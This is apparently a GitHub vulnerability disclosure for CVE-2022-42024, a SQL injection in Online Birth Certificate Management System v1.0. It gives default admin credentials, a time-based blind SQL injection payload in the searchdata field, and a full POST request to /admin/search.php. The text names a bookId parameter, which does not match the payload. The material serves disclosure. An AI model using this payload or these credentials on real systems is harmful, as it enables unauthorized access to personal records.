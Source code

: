 # CVE-2022-42024 Online Birth Certificate Management System - SQL injection

Online Birth Certificate Management System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /admin/search.php

username:admin password:admin123 ----> {ip}/admin/search.php

Supplier： https://www.sourcecodester.com/php/15683/online-birth-certificate-management-system-php-free-download.html

/admin/search.php has SQL injection

Payload: search=&searchdata=111'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because searchdata can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/1.png)

```sql
POST /CVE/OBCMS/admin/search.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 120
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: user_login=admin; userpassword=admin123; PHPSESSID=4okk1vi8496nglrc7ut709vl37
Origin: http://127.0.0.1
Referer: http://127.0.0.1/CVE/OBCMS/admin/search.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

search=&searchdata=111%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-26/2.png)